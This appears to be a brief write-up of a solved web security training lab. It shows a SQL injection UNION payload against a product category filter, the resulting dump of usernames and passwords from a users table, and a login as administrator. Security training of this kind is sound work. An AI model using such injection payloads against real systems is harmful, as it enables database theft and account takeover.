


# Lab: SQL injection UNION attack, retrieving data from other tables

**Vulnerability:** Product category filter

**Goal:** Read `username` / `password` from the `users` table and log in as administrator

## Steps

1. Inject a UNION query targeting the known `users` table directly:
   ```
   ' UNION SELECT username, password FROM users--
   ```
   

## Result

| Username | Password |
|---|---|
| administrator | jhc50yv5j5t3f42o2bw2 |
| carlos | yae5isspl66woljg81vs |
| wiener | lba336kw1x19lak1uxuy |

Logged in as `administrator`.



✅ **Lab solved**
